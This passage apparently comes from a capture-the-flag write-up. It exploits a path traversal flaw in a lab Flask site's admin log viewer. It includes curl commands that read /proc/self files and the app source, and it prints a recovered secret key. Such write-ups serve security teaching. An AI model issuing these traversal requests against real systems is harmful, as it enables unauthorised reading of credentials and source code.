 ### Path Traversal

#### Identify

There’s a path traversal vulnerability in the log display on `/admin` of the port 80 site:

[![image-20211106071052256](https://0xdfimages.gitlab.io/img/image-20211106071052256.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211106071052256.png)

I’ll also note the flask user, which suggests that’s the framework running the site.

#### Find Flask Source

I originally just guessed/fuzzed the directory traversal to find the source for the flask application at `/home/flask/app/app.py`:

[![image-20211106071137486](https://0xdfimages.gitlab.io/img/image-20211106071137486.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211106071137486.png)

I could also use `/proc/self`. The `cmdline` shows it’s Flask:

```

oxdf@hacky$ curl -s 10.10.11.127/admin/view/../../proc/self/cmdline --path-as-is -o- | tr '\000' ' '
/usr/bin/python2.7 /usr/local/bin/flask run --host=0.0.0.0 --port=80

```

For some reason, I can’t read the`environ` file:

```

oxdf@hacky$ curl -s 10.10.11.127/admin/view/../../../proc/self/environ --path-as-is -o- | tr '\000' '\n'
No such log found!

```

But, I can use `cwd` to get the directory the application is running from, and guess that the file is `app.py`:

```

oxdf@hacky$ curl -s 10.10.11.127/admin/view/../../proc/self/cwd/app.py --path-as-is
from flask import Flask, redirect, request, render_template, session, g, url_for, send_file, make_response    
...[snip]...

```

#### Flask Source Analysis

From `app.py`, I’ll note:
- The SECRET\_KEY is `SjG$g5VZ(vHC;M2Xc/2~z(`.
- There’s an `auth.py` as well where the `check` function is imported (or there’s a folder `auth` with `check.py`)

